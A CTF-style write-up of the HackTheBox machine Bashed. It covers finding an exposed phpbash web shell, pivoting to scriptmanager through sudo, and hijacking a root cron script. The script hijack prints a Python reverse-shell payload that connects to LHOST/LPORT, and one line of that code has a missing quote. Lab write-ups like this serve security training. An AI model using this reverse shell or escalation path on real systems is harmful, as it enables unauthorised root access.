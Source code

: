 ```yaml
---
layout: post
title: HackTheBox&#58; Bashed
description: Writeup for HTB box Bashed.
category: HackTheBox
---
```


### Introduction

Bashed is a Linux box, difficulty Easy on HTB.

The box is quite easy and straightforward.
User part is finding a running shell on the webserver.
For pivesc part, first we need to pivot from www-data to scriptmanager, then modify a script that is included in a root cron job.

### Initial Scan

![Bashed-1](/resources/Bashed-1.png)

### User: phpbash.php

The only service running is a webserver on port 80.
Based on the title of the homepage as well as the front page post, we can see this is a development site for a pseudo-bash written in php.
Furthur reading also suggests that the shell is presented somewhere in the site.

With that in mind, running `gobuster` with medium dirbuster wordlist shows a directory named `/dev`.
Here we can find `phpbash.php` and `phpbash.min.php`.
The source code for them is on [github](https://github.com/Arrexel/phpbash).

Here is the shell running as user `www-data` and we can read user.txt.
We are still going to open a reverse shell for other tasks later (`vi` for example).
![Bashed-2](/resources/Bashed-2.png)

### Privesc: scriptmanager and cron job

Running `sudo -l` shows that user `www-data` can run everything as user `scriptmanager`.
So we open a bash shell as `scriptmanager` by running
```bash
sudo -u scriptmanager bash
```

There is an unusual directory belong to `scriptmanager` at `/scripts`, containing `test.py` and `test.txt`.
Looking at the date of `test.txt`, we see that the date of `test.txt` is very new.
Furthurmore the date of `text.txt` seems to change every minute.
This highly suggests that `test.py` is executed every minute as root (because `test.txt` is owned by root).
We can also use [pspy](https://github.com/DominicBreuker/pspy) to confirm this.

We can modify the content of `test.py` to open a root reverse shell and we can read root.txt
```python
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((LHOST, LPORT))

os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

p = subprocess.call(["/bin/sh", "-i])
```
![Bashed-3](/resources/Bashed-3.png)
